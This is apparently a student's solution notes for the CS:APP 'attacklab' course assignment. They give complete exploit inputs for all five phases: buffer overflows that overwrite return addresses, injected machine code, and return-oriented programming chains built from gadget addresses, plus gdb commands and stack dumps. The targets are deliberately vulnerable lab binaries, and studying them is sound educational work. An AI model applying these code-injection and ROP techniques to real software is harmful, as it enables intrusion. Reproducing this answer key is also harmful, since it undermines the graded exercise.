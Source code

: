 This file contains materials for one instance of the attacklab.

Files:

    ctarget

Linux binary with code-injection vulnerability.  To be used for phases
1-3 of the assignment.

    rtarget

Linux binary with return-oriented programming vulnerability.  To be
used for phases 4-5 of the assignment.

     cookie.txt

Text file containing 4-byte signature required for this lab instance.

     farm.c

Source code for gadget farm present in this instance of rtarget.  You
can compile (use flag -Og) and disassemble it to look for gadgets.

     hex2raw

Utility program to generate byte sequences.  See documentation in lab
handout.


# Phase1
## Target
`004018ce`

## Input
```
57 61 74 61 73 68 69 77 6f 20
75 67 6f 6b 61 73 75 6e 6f 77
61 20 6b 6f 6e 6f 69 62 61 73
68 6f 00 00 00 00 00 00 00 00
ce 18 40 00 00 00 00 00
``

## Commands
* `run -q < ctarget1_raw.txt`	-> Run in quiet mode with given text
* `display/8gx $rsp`			-> Print 8 qwords in stack whenever it runs
* `ni`							-> Next instruction
* `kill`						-> Kill currently running
* `layout asm`					-> Assembly layout

## Breakpoints
`br *0x004018c4`

# Prob2
## Target
`004018fa`

## Command
`run -q < inputs/p2/input_raw.txt`

## Code
```
movl $0x17e4e6ea, %edi
subq $0x8, %rsp
movq $0x4018fa, (%rsp)
ret
```

## Compiled
```
bf ea e6 e4 17 48 83 ec
08 48 c7 04 24 fa 18 40
00 c3
```

## Input
```
50 6f 70 70 69 6e 27 20
50 61 72 74 79 00 00 00
bf ea e6 e4 17 48 83 ec
08 48 c7 04 24 fa 18 40
00 c3 00 00 00 00 00 00
28 63 64 55 00 00 00 00
```

# Prob3
## Target
```
00401a0b
(Cookie) 17e4e6ea -> 31 37 65 34 65 36 65 61
```

## Command
* `run -q < inputs/p3/input_raw.txt`
* `x/2x $edi`
* `p/2x $rdi`
* `x/20gx $rsp - 10`

## Breakpoints
* `br *0x004018cd` // Before called
* `br *0x00401a1c` // After called
* `br *0x004019d5` // After sprintf

## Inspection
BeforeCall
```
0x55646340:     0x0000000055646329      0x0000000000000000
0x55646350:     0x000000000040201e      0x0000000000000000
0x55646360:     0xf4f4f4f4f4f4f4f4      0xf4f4f4f4f4f4f4f4
```

AfterCall (rsp -> 0x556448)
```
0x55646318:     0x0061696c65736f52      0x6165366534653731
0x55646328:     0x55646320c7c74800      0x2404c74808ec8348
0x55646338:     0x000000c300401a0b      0x0000000055646329
0x55646348:     0x0000000000000000      0x000000000040201e
0x55646358:     0x0000000000000000      0xf4f4f4f4f4f4f4f4
```

BeforeRet (rsp -> 0x556440)
```
0x55646310:     0x00000000004018c4      0x0061696c65736f52
0x55646320:     0x6165366534653731      0x55646320c7c74800
0x55646330:     0x2404c74808ec8348      0x000000c300401a0b
0x55646340:     0x0000000000401a0b      0x0000000000000000
0x55646350:     0x000000000040201e      0x0000000000000000
```

## Code
```
movq $0x55646320, %rdi
subq $0x7f, %rsp
movq $0x401a0b, (%rsp)
ret
```

## Input
```
52 6f 73 65 6c 69 61 00
31 37 65 34 65 36 65 61
00 48 c7 c7 20 63 64 55
48 83 ec 7f 48 c7 04 24
0b 1a 40 00 c3 00 00 00
28 63 64 55 00 00 00 00
```

# Prob4
## Target
`0x17e4e6ea`

## Farm
* `rdi = 0x92c78948` (setval_272)
* `rdi = 0xc3949058` (setval_192)
* `rdi = 0x58ecc8b4` (setval_378)
	* `popq %rax`
* `rdi = 0xc78948ac` (setval_214)
	* `%rax -> %rdi`
	* `%eax -> %edi`
* `eax = rdi + 0x58497d71` (addval_305)
	* `popq %rax`
* `eax = rdi - 0x3e3876b8` (addval_275)
* `eax = rdi - 0x6f3876b8` (addval_276)
	* `%rax -> %rdi`
	* `%eax -> %edi`
* `eax = rdi - 0x3c6f6ba8` (addval_365)

## Gadgets
`popq %rax`		00401abb
`ret`
`%rax -> rdi`	00401ac7
`ret`
`touch2`		004018fa

## Input
```
41 6d 65 61 67 61 72 69
20 6b 61 73 61 20 77 6f
20 73 75 74 65 74 65 20
68 61 62 61 74 61 6b 75
20 79 75 6d 65 20 77 6f
bb 1a 40 00 00 00 00 00
ea e6 e4 17 00 00 00 00
c7 1a 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
```

## Command
`run -q < inputs/p4/input_raw.txt`

# Prob5

## Farm
* `rax -> rdi, eax -> edi` (setval_214)
* `rax -> rdi, eax -> edi` (addval_276)
* `rax = rdi + rsi` (add_xy)
* `popq rax` (setval_378)
* `popq rax` (addval_305)
* `eax -> ecx` (addval_169)
* `ecx -> edx` (getval_273)
* `rsp -> rax` (getval_189)
* `edx -> esi` (setval_441)

## Gadgets
`rsp -> rax`			00401b07 (getval_189)
`ret`
`rax -> rdi`			00401ac7 (setval_214)
`ret`
`popq rax (+72)`		00401abb (addval_305)
`ret`
`eax -> ecx`			00401aed (addval_169)
`ret`
`ecx -> edx`			00401b02 (getval_273)
`ret`
`edx -> esi`			00401b2e (setval_441)
`ret`
`rdi + rsi -> rax`		00401ae6
`ret`
`rax -> rdi`			00401ac7
`ret`
`touch3`				00401a0b

## Input

```
79 6f 75 74 75 2e 62 65 /* Stuffs to fill in the blank */
2f 70 53 6c 67 64 48 6d
5f 32 58 55 20 20 20 20
44 6f 75 62 6c 65 20 52
61 69 6e 62 6f 77 00 00 /* Your code starts from now... */
07 1b 40 00 00 00 00 00 /* +8	rsp -> rax							*/
c7 1a 40 00 00 00 00 00 /* +16	rax -> rdi (+8)						*/
bb 1a 40 00 00 00 00 00 /* +24	popq rax							*/
48 00 00 00 00 00 00 00 /* +32	(0x48 = 72)							*/
ed 1a 40 00 00 00 00 00 /* +40	eax -> ecx							*/
02 1b 40 00 00 00 00 00 /* +48	ecx -> edx							*/
2e 1b 40 00 00 00 00 00 /* +56	edx -> esi (80)						*/
e6 1a 40 00 00 00 00 00 /* +64	rdi (+8) + rsi (72) -> rax (+80)	*/
c7 1a 40 00 00 00 00 00 /* +72	rax -> rdi (+80)					*/
0b 1a 40 00 00 00 00 00 /* +80	touch3								*/
31 37 65 34 65 36 65 61 /* +88	Cookie								*/
```

## Command
`run -q < inputs/p5/input_raw.txt`

